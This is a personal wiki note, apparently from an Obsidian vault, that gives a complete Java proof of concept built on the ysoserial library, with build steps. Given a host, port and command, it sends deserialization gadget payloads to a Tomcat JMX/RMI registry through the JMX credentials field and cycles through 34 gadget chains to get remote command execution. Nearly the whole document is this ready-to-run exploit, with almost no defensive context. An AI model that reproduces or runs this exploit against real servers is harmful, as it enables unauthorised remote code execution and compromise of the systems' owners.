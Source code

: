 ```yaml
---
creation date: May 25th 2022
last modified date: May 25th 2022
aliases: []
tags: #📖
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📖  

# [[YSoSerial]]  

### Wrapping ysoserial functionality
This is an example of wrapping ysoserial payload generation in a custom java program targeting Tomcat RMI Registry deserialization vulnerabilities. To compile it, place it in the `ysoserial/src/main/java/ysoserial/Tomcat2016POC.java` file and modify the `ysoserial/pom.xml` file to contain the following edit 
```xml
<!-- snip -->
					<archive>
						<manifest>
							<mainClass>Tomcat2016POC</mainClass>
							<!--<mainClass>ysoserial.GeneratePayload</mainClass>-->
						</manifest>
					</archive>
<!-- snip -->
```

Compile with `mvn clean package -DskipTests` while inside the top level `ysoserial/` directory 

```java
import java.util.HashMap;
import javax.management.remote.JMXConnector;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;
import ysoserial.payloads.ObjectPayload;
import java.util.Scanner;

public class Tomcat2016POC {
    public static void main(String[] args) throws Throwable {
        Scanner userInput = new Scanner(System.in);
        String[] payloadTypes = { "AspectJWeaver","BeanShell1","C3P0","Click1","Clojure","CommonsBeanutils1","CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4","CommonsCollections5","CommonsCollections6","CommonsCollections7","FileUpload1","Groovy1","Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1","JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","MozillaRhino2","Myfaces1","Myfaces2","ROME","Spring1","Spring2","URLDNS","Vaadin1","Wicket1" };
        
        String host = args[0];
        String port = args[1];
        String command = args[2];
        //String[] payloadTypes = { args[3] };
        
        for (String payloadType: payloadTypes) {
            try {
                
                Object payload = new PayloadGenerator(command, payloadType).generateObjectPayload();    

                if (payload == null) {
                    System.err.println("[-] Error creating object payload.Exiting.. ");
                    continue;   
                }    

                HashMap<String, Object> env = new HashMap<>();
                env.put(JMXConnector.CREDENTIALS, payload);

                String url = "service:jmx:rmi:///jndi/rmi://" + host + ":" + port + "/jmxrmi";    // Launch exploit
                JMXConnectorFactory.connect(new JMXServiceURL(url), env);
            } catch (Exception ex) {
                ex.printStackTrace();
            }

            System.out.print("Finished attempt for " + payloadType + ", press enter to continue...");
            userInput.nextLine();
        }
    }

    /**
    * Wrapper around ysoserial ObjectPayload class for ease of use.
    */
    private static final class PayloadGenerator {
        private String command;
        private String payloadType = "Groovy1";
        
        PayloadGenerator(String command, String payloadType) {
            this.command = command;
            this.payloadType = payloadType;
        }
        
        Object generateObjectPayload() {
            Class<? extends ObjectPayload> payloadClass =
                ObjectPayload.Utils.getPayloadClass(payloadType);        
            
            if (payloadClass == null) {
                System.err.println("[-] Invalid payload type '" + payloadType + "'");
                return null;
            }        

            try {
                ObjectPayload payload = payloadClass.newInstance();
                
                return payload.getObject(command);
            } catch (Throwable t) {
                // do nothing, returning null anyway.
            }

            return null;
        }  
    }

}
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 25th 2022 (08:07 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
